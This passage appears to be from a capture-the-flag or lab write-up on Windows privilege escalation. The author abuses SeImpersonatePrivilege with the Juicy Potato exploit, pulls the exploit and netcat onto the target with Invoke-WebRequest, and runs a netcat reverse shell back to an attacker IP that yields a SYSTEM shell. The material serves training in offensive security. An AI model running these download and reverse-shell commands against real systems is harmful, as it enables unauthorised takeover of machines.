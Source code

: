 As we can see, the user retro has the ‘SeImpersonatePrivilege’ enabled that we need to leverage our access to SYSTEM so let’s try to use a Juicy Tomato attack on this one. Exploit can be found[here.](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)


Next we need to start a webserver to serve the exploit to the target.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine.


Invoke-WebRequest http://10.11.83.38/JuicyPotato.exe -outfile jp.exe

```powershell
PS C:\> mkdir test


    Directory: C:\


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----         8/7/2024   2:46 PM                test                          


PS C:\> cd test
PS C:\test> Invoke-WebRequest http://10.11.83.38/JuicyPotato.exe -outfile jp.exe
PS C:\test> ls


    Directory: C:\test


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----         8/7/2024   2:46 PM         347648 jp.exe                        


PS C:\test> 
```

Next We need netcat on the system.

Invoke-WebRequest http://10.11.83.38/nc64.exe -outfile nc64.exe


and 

.\jp.exe -l 1338 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p C:/windows/system32/cmd.exe -a "/c C:/test/nc64.exe -e cmd.exe 10.11.83.38 4445" -t *


```bash
└─$ nc -lnvp 4445                                
listening on [any] 4445 ...
connect to [10.11.83.38] from (UNKNOWN) [10.10.123.19] 50121
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd \     
cd \

C:\>whoami
whoami
nt authority\system

C:\>
```